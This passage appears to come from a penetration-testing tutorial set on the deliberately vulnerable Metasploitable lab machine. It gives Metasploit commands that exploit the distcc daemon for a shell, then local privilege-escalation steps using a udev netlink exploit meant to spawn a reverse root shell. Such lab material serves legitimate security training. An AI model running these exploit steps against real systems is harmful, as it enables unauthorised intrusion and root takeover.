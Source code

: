 {icon=bomb}
G> ## The Play
G>
G> A simple nmap scan will show us any open ports.  
G> One of the ports is 3632, with the `distcc` (distributed compiler, useful for speeding up source code compilation) daemon listening.  
G>
G> Let us check to see if Metasploit knows about any `distcc` exploits?
G>
G> 
G> `msfconsole`  
G> `msf > db_rebuild_cache`  
G> `msf > search distcc`  
G> `msf > use exploit/unix/misc/distcc_exec`  
G> `msf exploit(distcc_exec) > set RHOST metasploitable`  
G> `msf exploit(distcc_exec) > exploit`  
G> In the video metasploitable was running at 192.168.56.21 for starters. After this I had to change the virtual adapter, so that it could also connect to the outside world to fetch my payload. It ended up running on 192.168.0.232. My attacking machine also changed from 192.168.56.20 to 192.168.0.12
G>
G> Now we have a shell. Let us test it.
G>
G> `pwd`  
G> `/tmp`  
G> `whoami`  
G> `daemon`  
G>
G> All following commands can be run through our low privilege user.
G>
G> Running `unix-privesc-check` and directing the output to a file shows us:  
G> `I: [group_writable] /tmp is owned by user root (group root) and is group-writable (drwxrwxrwt)`
G>
G> What about a file system that is mounted with permissions that will allow us to write a file that may be executed by one of the previously mentioned privileged services?  
G>
G> `mount`  
G> Shows us that we have very little in the way of granular partitioning and we have `/` mounted as `rw`, so as a low privileged user, we can both write and execute files in `/tmp` for example.  
G>
G> We could also just search for "Privilege Escalation" exploits targeting our targets kernel.  
G> Let us get the targets Kernel version: `uname -a` produces:  
G> `2.6.24`
G>
G> This ([https://www.exploit-db.com/exploits/8572/](https://www.exploit-db.com/exploits/8572/)) looks like an interesting one. Can we compile this on the target though? Let us see if we have `gcc` handy:  
G> `dpkg -l gcc`  
G> We do.

{icon=bomb}
G>
G> udev is a device manager running as root for the Linux kernel. Before version 1.4.1 it did not verify whether a netlink message originated from kernel or user space,  
G> which allowed users to supply their own, which we see in the exploit:  
G> `sendmsg(sock, &msg, 0);`
G>
G> The exploit will run our payload that we will create soon which will open a reverse root shell (because udev is running as root) back to our attacking box.  
G> We need to pass the PID of the netlink socket as an argument.  
G> When a device is removed, the exploit leverages the `95-udev-late.rules` functionality which runs arbitrary commands (which we are about to create in `/tmp/run`) via the `REMOVE_CMD` in the exploit.  